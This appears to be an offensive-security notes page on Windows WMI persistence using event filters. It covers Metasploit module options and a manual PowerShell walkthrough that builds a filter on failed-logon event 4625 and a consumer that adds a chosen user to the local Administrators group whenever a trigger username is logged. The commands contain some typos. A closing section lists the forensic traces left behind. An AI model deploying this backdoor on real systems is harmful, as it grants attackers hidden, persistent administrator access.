 # WMI Persist With Event Filters

### Automation

* There are many great automated ways to do this.
* [https://github.com/Sw4mpf0x/PowerLurk](https://github.com/Sw4mpf0x/PowerLurk)
* Metasploit post module `exploit/windows/local/wmi_persistence`

```
Basic options:
  Name                Current Setting  Required  Description
  ----                ---------------  --------  -----------
  CALLBACK_INTERVAL   1800000          yes       Time between callbacks (In milliseconds). (Default: 1800000).
  CLASSNAME           UPDATER          yes       WMI event class name. (Default: UPDATER)
  EVENT_ID_TRIGGER    4625             yes       Event ID to trigger the payload. (Default: 4625)
  PERSISTENCE_METHOD  EVENT            yes       Method to trigger the payload. (Accepted: EVENT, INTERVAL, LOGON, PROCESS, WAITFOR)
  PROCESS_TRIGGER     CALC.EXE         yes       The process name to trigger the payload. (Default: CALC.EXE)
  SESSION                              yes       The session to run this module on.
  USERNAME_TRIGGER    BOB              yes       The username to trigger the payload. (Default: BOB)
  WAITFOR_TRIGGER     CALL             yes       The word to trigger the payload. (Default: CALL)

```

### Manual Mode&#x20;

* Check if WMI is enabled, if it is not any `WMI` command that you execute will attempt to download `WMI`
* This download process does log in the `WMI Log`
* Check if WMI is enabled on the remote system&#x20;

```
reg query "HKLM\System\CurrentControlSet\Services\Winmgt"
Start        REG_DWORD        0x2

0x2 --> Auto Start
0x3 --> Demand Start
0x4 --> Disabled

#OR
get-service Winmgmt
```

*   &#x20;

    <figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

#### Check for existing entries&#x20;

* Check for existing event filter consumer bindings that are on the system&#x20;

```
Get-Wmiobject -Class __FilterToConsumerBinding -NameSpace "root\Subscription"
```

#### Ensure the system is logging event logs for the type of event you want to use

* #### - i.e. logon, logoff event&#x20;

```
auditpol /get /category:*
#OR for logon logoff 
auditpol /get /category:Logon/Logoff

--output--
System audit policy
Category/Subcategory                      Setting
Logon/Logoff
  Logon                                   Success and Failure
  Logoff                                  Success
  Account Lockout                         Success
  IPsec Main Mode                         No Auditing
  IPsec Quick Mode                        No Auditing
  IPsec Extended Mode                     No Auditing
  Special Logon                           Success
  Other Logon/Logoff Events               No Auditing
  Network Policy Server                   Success and Failure
  User / Device Claims                    No Auditing
  Group Membership                        No Auditing
```

#### Create your own filter and consumer&#x20;

```
$x='SCM System Log Filter'
$z='SCM System Log Consumer'
```

#### Now create the triggering event&#x20;

```
$q='Select * from __InstanceCreationEvent WITHIN 10 where TargetInstance isa 'Win32-NtLogEvent' and TargetInstance.logfile='Security' and (TargetInstance.EventCode='4625')"
```

#### Now create your event filter&#x20;

```
$wmifilter=Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$x;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$q} ErrorAction Stop
```

#### Create the event consumer&#x20;

```
$wmiconsumer=Set-WmiInstance -Class CommandLineEventConsumer -NameSpace "root\subscription" -Arguments @{Name=$z;CommandLineTemplate='C:\\Windows\\System32\\windowspowershell\\v.1.0\\powershell.exe -v 2.0 -nop -c "if(wevtutil qe security /rd:true /f:text /c:1 `"*[System/EventID=4625]`" | findstr /i "fake username here"){net localgroup Administrators <localuser> /add}"'}
```

#### Combine the filter and the comsumer&#x20;

```
Set-WmiInstance -Class __FilterToConsumerBinding -NameSpace "root\subscription" -Arguments @{Filter=$wmifilter;Consumer=$wmiconsumer}
```

#### Ensure Its all working and correct&#x20;

```
Get-WmiObject -Class __FilterToConsumerBinding -NameSpace "root\subscription"
```

### IOCs Left Behind&#x20;

```
C:\Windows\System32\Wbem\Repository\INDEX.BTR
- Cotnains the names of event filter and event consumer 
C:\Windows\System32\Wbem\Repository\OBJECTS.DATA
- Contains the names of event filter and event comsumer 
- Contains the command in the event consumer 
C:\Windows\System32\Wbem\Repository\MAPPING2.MAP
- Prefetch Files
"HKLM\Software\Microsoft\Wbem\Ess\//./root\CIMV2\MS_NT_EVENT_LOG_EVENT_PROVIDER"
```

#### Other Logs&#x20;

```
5857 Active ScriptEventConsumer provider started with result code 0x0
```

